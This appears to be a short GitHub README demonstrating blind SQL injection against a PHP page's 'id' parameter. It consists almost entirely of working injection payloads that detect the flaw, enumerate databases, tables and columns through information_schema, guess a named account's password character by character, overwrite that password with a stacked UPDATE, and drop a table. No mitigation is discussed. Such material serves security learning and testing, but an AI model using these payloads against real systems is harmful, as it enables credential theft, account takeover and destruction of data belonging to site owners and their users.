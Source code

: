 # SQL Injection Example

## Purpose
Find table about user information, get user password, modify user password, drop user table;

## Injection Dectection
> index.php?id=1 AND 1 = 1

Working

> index.php?id=1 AND 1 = 2

Broken. Injectable~!

## Find Database
> index.php?id=1 AND 1 <= (SELECT count(*) FROM information_schema.schemata where schema_name like '%member%')

> index.php?id=1 AND 6 = (SELECT CHAR_LENGTH(schema_name) FROM information_schema.schemata where schema_name like '%member%')

Got Database member

## Find Table

> index.php?id=1 AND 1 <= (SELECT count(*) FROM information_schema.tables WHERE table_schema = 'member')

> index.php?id=1 AND 1 <= (SELECT count(*) FROM information_schema.tables WHERE table_schema = 'member' AND table_name like '%user%')

False

> index.php?id=1 AND 1 <= (SELECT count(*) FROM information_schema.tables WHERE table_schema = 'member' AND table_name like '%member%')

> index.php?id=1 AND 1 <= (SELECT count(*) FROM member.members)

Got Table Name, members!

## Find Table Field

> SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’

> index.php?id=1 AND 1 <= (SELECT count(*) FROM information_schema.columns WHERE table_schema = 'member' AND table_name = 'members' AND column_name like '%account%')

> index.php?id=1 AND 1 <= (SELECT count(*) FROM member.members where password IS NOT NULL)

Got password Field!

> index.php?id=1 AND 1 <= (SELECT count(*) FROM member.members where account IS NOT NULL)

Got account Field!

## Guess Password

* Guess Password Length

> index.php?id=1 AND 5 < (SELECT CHAR_LENGTH(password) FROM member.members where account = 'dinos80152')

> index.php?id=1 AND 3 = (SELECT CHAR_LENGTH(password) FROM member.members where account = 'dinos80152')

Got Password has 3 chars

* Guess Password, Loop a-z A-Z 1-9

> index.php?id=1 AND 'a' = (SELECT substr(password, 1, 1) FROM member.members where account = 'dinos80152')

Got Password is abc

## Manipulate Table

* Update User Password
> index.php?id=1;Update member.members set password = 'bcd' where account = 'dinos80152'

* Drop Table
> index.php?id=1;Drop Table member.members2

## Reference
* [MySQL SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)